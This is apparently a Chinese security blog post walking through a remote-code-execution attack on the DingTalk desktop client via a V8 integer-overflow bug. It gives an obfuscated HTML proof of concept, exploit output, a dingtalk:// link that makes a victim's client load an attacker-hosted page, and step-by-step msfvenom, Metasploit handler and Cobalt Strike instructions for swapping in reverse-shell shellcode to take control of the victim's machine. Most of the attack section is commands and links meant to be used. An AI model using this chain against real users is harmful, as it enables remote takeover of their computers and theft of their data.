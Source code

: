 #  【攻防实战】实战中的某钉RCE  
原创 平凡安全  平凡安全   2025-06-28 12:00  
  
**「当你深入了解这块土地上的人们时，你会发现，他们的思想，配得上他们所受的苦难。」**  
## 「前言」  
  
网络安全技术学习，承认⾃⼰的弱点不是丑事。只有对原理了然于⼼，才能突破更多的限制。拥有快速学习能力的安全研究员，是不能有短板的，有的只能是大量的标准板和几块长板。知识⾯，决定看到的攻击⾯有多⼴；知识链，决定发动的杀伤链有多深。  
## 「零、漏洞原理」  
  
利用了Chromium v8引擎整数溢出漏洞（是V8优化编译器Turbofan在SimplifiedLowering阶段产生的一个整数溢出漏洞），V8是Chromium内核中的JavaScript引擎，负责对JavaScript代码进行解释优化与执行。  
## 「一、影响版本」  
  
经测试需要钉钉版本< 6.3.25-Release.2149108  
## 「二、poc」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7JrQfQbKaCiayrctuc7ibgyTWHyUCrAeibhPJE0qhfkCkUGeiaOKREpkO3g/640?wx_fmt=png&from=appmsg "")  
```
<html>

<body>
    <h1> test </h1>
    <script>/** var _0x1b17=['KELCi8OxLg==','ZE/CpWvCpDkcPA==','E8Kjw51bQ8O+Klk0w4vCsw==','w5lnw5Ipwr12RsOCw7B/J8OEw4E=','QMOtNcO9w77Dv8OIwp3DmQ7CksOdOA==','X8KgbcK0wqXCuw==','DjfCg8KK','OsO3fsOwwojCq0YpMw==','RMKWBMKHW3PCqcKjTwgMaw==','O8KCw5PCoMOpwo0=','e0rDgMO8wqNndsOM','wphVw6Zhw7wWwrLDg8K1','IibCvsKFwqXCqMKAw6w4NDgs','PcO6Z8O2w4LCp20tMWrDhxMZRSLCmSvDuTjCnk8=','GcOiPsKX','G8K7w6vDpXNGIcOwLnXDu8K9BkI=','w7MXFMKhw78WwpYqwqVVFcKR','GMK/w7vDpnVIJ8Or','ank7Wy4jw44=','HTfCicKbGsKEaysJwqTDux1L','GS3CqsKEwqjCp8KRw5Y=','GcOmcktVwrw=','w50aKsKuwq9cdMO4wpTDqyo5GBQ=','IybCrcKgwrvCpsKGw5w8Pyc5AcOn','NhbCuwM=','wqFcbEfDmMOMw6LCkl9ywqwDwocc','wqfChMOfw4jDjsKzwozCn8Oqwok=','w4tcwrED','cCvCsMOQw7g=','w6pdw4k=','wqJyw4vCmMO1wrTCj8OSwqnDnSY=','WsKcBA==','wrV8w4vCjcOlwrDDgcKXwqTDlQ==','XsKWD8KeWA==','H8O+KcKHHGPDiUQ=','w73Ci8OFw60=','Wy7Csg==','e0TDocOvwrR6IsKLQArDsw==','AzvCjQIS','VMOxw6/Ciw==','fEDDp8OdwrhgbMKYGw==','PCzCvg==','w5QHwrPDlGRLNQHDpHwqa8OJR3hiwpwyMBJzJR8=','ZMO8ecOcd8Oow7M6wq1O','w417wqvDl3BuwooiwrnCpDBZwoNw','fHtRGA==','Y24s','w4VWwrsdKQ8=','HsKCOC4RwrQ=','w4AJwrLDi05SLxfDtEI0esODaA==','L2kiFG0=','H8O+I8KdBmc=','w6RcwrEPMQI=','FTvDq8O+w7Ucax4=','FsKfJS4Rwrky','wpBAw5zCjMO1','HsO+w4PDgsKUWw==','EcKxwoXDjcOLCQ==','PkrCncOEOMOww7fCrlDCgMOJesOdAQ==','F8K+w49bSQ==','w4dew5rDmMKg','wp52wrbCpzM=','wqIjw4xDwqA=','cMKIw5vCncKdJV/CoMK7RA==','CiTCnsKdC8KV','fXtHE8ObSBZqwp5G','Fjd1EMOqw57CgcOd','ZsOje8OLbMO8w4Q3wqAQwqU=','C8Kxw63Dh3RZIcO6Pj4=','w4rDj8O/','ZU/Ctg==','BcKyw55TcsO8HF8+w7jCtsKtEgo7w5LCigQ8','w4ZdwrkVPAM='];(function(_0x4285cf,_0x1b1736){var _0x1368bb=function(_0x5a17b5){while(--_0x5a17b5){_0x4285cf['push'](_0x4285cf['shift']());}};_0x1368bb(++_0x1b1736);}*/</script>
</body>

</html>

```  
```
test
0x0000000000000000

test: 0000000000000NaN

wasm_func_addr is: 0000000000000NaN

shared_info_addr is: 00000000000000-1

export_function_data_addr is: 00000000000000-1

wasm_instance_addr is: 00000000000000-1

rwx addr is: 0000000000000000

```  
## 「三、触发方式」  
```
dingtalk://dingtalkclient/page/link?url=x.x.x.x/calc.html&pc_slide=true

```  
### 「漏洞证明」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7X4G0NfOtxaYvbOJ4ebThvZdtothric47HpfsAicIUhegIiaZyavSmUtsg/640?wx_fmt=png&from=appmsg "")  
## 「四、msf反弹shell」  
### 「msf 生成shellcode」  
```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=xxx -e x86/shikata_ga_nai -f csharp

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7WtUPZKhHsGAdibbq3C4I66LMictqum0HfCIBhD3CULkDlueiadMHZfoYQ/640?wx_fmt=png&from=appmsg "")  
### 「msf开启监听」  
```
use exploits/multi/handler
set lhost x.x.x.x
set lport xxx
run

```  
### 「将生成的shellcode替换原shellcode」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7f8VyiaicP2rxnj8afY8KibsnDxkmDp4w73vycasgoOshK6XhlHnlubcOQ/640?wx_fmt=png&from=appmsg "")  
### 「需要替换的位置为」  
```
var shellcode=new Uint8Array()

```  
### 「poc」  
```
dingtalk://dingtalkclient/page/link?url=http://x.x.x.x/msf.html&pc_slide=true

```  
### 「成功上线msf」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7xYLDr8vbAKWAPgTvcC7BeCV9qib7d7gly5JKQd5iaHFCVZbfyVZ5KXbQ/640?wx_fmt=png&from=appmsg "")  
## 「五、cs反弹shell」  
### 「cs生成c#的shellcode」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a740VJY5Xc6icDF0cibdAB2KQeUXCNgm8YHkuoRWNMG6hlBKQkBU4ONz3A/640?wx_fmt=png&from=appmsg "")  
  
不要勾选x64  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7L0ePU8I1mMBweKuQTaeCatzIdKNfBKPFJOHf3jOEX8z9xIk84b2ISw/640?wx_fmt=png&from=appmsg "")  
  
将生成的shellcode替换原shellcode  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7rVAhNmic0B7SQDRxLpcr0nvjSe5eODnIYS8132ydY6Ccjg0TefZsYPA/640?wx_fmt=png&from=appmsg "")  
### 「需要替换的位置为」  
```
var shellcode=new Uint8Array()

```  
### 「poc」  
```
dingtalk://dingtalkclient/page/link?url=http://x.x.x.x/cs.html&pc_slide=true

```  
### 「成功上线cs」  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpw323CyHsGP3dchTrQZN6a7r3icxLxg1uaRkotdrHmkLfZTPUbCLx0iaBw5iaSDECdjKBXsIV7EZzYuA/640?wx_fmt=png&from=appmsg "")  
## 「网络安全感悟」  
  
网络安全是一个长期的过程，因为网络安全没有终点，不管是网络安全企业，还是在网络安全行业各种不同方向的从业人员，不管你选择哪个方向，只有在这条路上坚持不懈，才能在这条路上走的更远，走的更好，不然你肯定走不远，迟早会转行或者被淘汰，把时间全浪费掉。如果你觉得自己是真的热爱网络安全这个行业，坚持走下去就可以了，不用去管别人，现在就是一个大浪淘金的时代，淘下去的是沙子，留下来的才是金子，正所谓，千淘万漉虽辛苦，吹尽狂沙始到金，网络安全的路还很长，一生只做一件事，坚持做好一件事！  
## 「攻防交流群」  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/v94hWOZcBpw323CyHsGP3dchTrQZN6a7xU7FNJLkPxtbYvdaw8VxEVOiaPRys7OpaJ68zaOoouJm2IhicDXBBOmw/640?wx_fmt=jpeg&from=appmsg "")  
## 「声明」  
  
文笔生疏，措辞浅薄，敬请各位大佬不吝赐教，万分感谢。  
  
免责声明：由于传播或利用此文所提供的信息、技术或方法而造成的任何直接或间接的后果及损失，均由使用者本人负责， 文章作者不为此承担任何责任。  
  
转载声明：平凡安全 拥有对此文章的修改和解释权，如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章的内容，不得以任何方式将其用于商业目的。  
  
